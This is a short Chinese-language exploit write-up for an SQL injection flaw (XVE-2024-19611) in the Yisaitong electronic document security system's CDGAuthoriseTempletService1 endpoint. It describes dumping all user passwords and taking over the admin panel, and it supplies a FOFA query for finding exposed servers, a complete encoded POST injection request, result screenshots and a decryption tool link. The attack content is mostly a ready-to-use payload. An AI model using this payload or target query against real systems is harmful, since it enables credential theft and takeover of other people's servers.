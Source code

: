 # 亿赛通电子文档安全管理系统CDGAuthoriseTempletService1存在SQL注入漏洞(XVE-2024-19611)

亿赛通电子文档安全管理系统的 CDGAuthoriseTempletService1 接口存在 SQL 注入漏洞。 攻击者可以通过构造特定的 POST 请求注入恶意 SQL 代码，利用该漏洞对数据库执行任意 SQL 操作，获取所有用户的账户密码信息，破解md5值后可直接接管后台，导致系统处于极不安全的状态。

## fofa

```java
body="/CDGServer3/index.jsp"
```

## poc

```xml
POST /CDGServer3/CDGAuthoriseTempletService1 HTTP/1.1
Host: 
Content-Type: application/xml
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
 
CGKFAICMPFGICCPHKFGGGBOMICMOKOBGPCBLKPCAHAGPFJHFABCPPKIOHIAIBJLLHJCODJMAGKBGIKDAFJHJMMKBDHABAJPBFNLBOIDFBHMMFKFHLPIAOPHEOAICJEMBCKFEIPGINHHBEGDOMEOPDKJGPNIJEDNOMEKLJHCGOJCEIPFPEDGBEHJLMNEEFIKFPGCCKCFCCOMONKACOEENLFIBAGNJBLHDEJCIPHOPDOAMGLINIEJDIFOLLGEDIDMDAKIPEINHHOFBOHLPEJBPJBKJLDDEIFOGLGHKANECEEGNDCNMJNLNJBFKNGKKJFODMFEKBOGFNDNJMCMHOFJBLGHEBALFGNNGLPBMKHHHGNKNHJGLFLODDIKAAOOOAJAEMBLBNMGOFJELPABKOEGMFLIBGPMHJPEJCKFBGHHNGMDAJBKBNNMIMFELPGEHDFGNHMBLEIKMINOAOAINBLEOIGHAMOPDNOIFFEFLGBFOFAGACH
```

![img](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408091052010.png)

使用 https://github.com/wafinfo/DecryptTools 工具解密

![image-20240809105347541](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202408091053589.png)